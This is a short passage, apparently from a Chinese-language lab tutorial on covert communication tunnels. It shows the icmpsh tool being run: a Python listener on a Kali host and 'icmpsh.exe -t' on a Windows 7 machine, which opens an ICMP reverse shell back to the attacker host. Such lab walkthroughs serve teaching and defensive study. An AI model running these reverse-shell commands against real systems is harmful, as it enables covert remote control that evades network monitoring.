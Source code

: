 ![](img/隐藏通信隧道基础知识/11.png)

于是我使用了Python脚本运行：

```
python icmpsh_m.py 192.168.217.129【kali】 192.168.217.132【win7】
```

![](img/隐藏通信隧道基础知识/12.png)

然后在Win7上执行命令：

```
icmpsh.exe -t 192.168.217.129
```